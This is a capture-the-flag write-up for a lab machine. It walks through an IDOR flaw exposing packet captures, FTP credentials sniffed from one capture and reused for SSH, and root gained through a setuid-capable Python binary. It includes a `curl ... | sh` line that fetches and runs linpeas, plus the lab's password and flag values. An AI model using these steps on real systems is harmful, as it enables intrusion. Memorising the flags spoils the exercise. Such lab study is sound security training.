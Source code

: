 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![](images/Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](images/Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](images/Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](images/Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](images/Pasted%20image%2020250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](images/Pasted%20image%2020250107162221.png)

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](images/Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](images/Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](images/Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](images/Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](images/Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![](images/Pasted%20image%2020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![](images/Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](images/Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](images/Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](images/Pasted%20image%2020250107165038.png)

We can also see this procedure in Gtfobins:

![](images/Pasted%20image%2020250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](images/Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

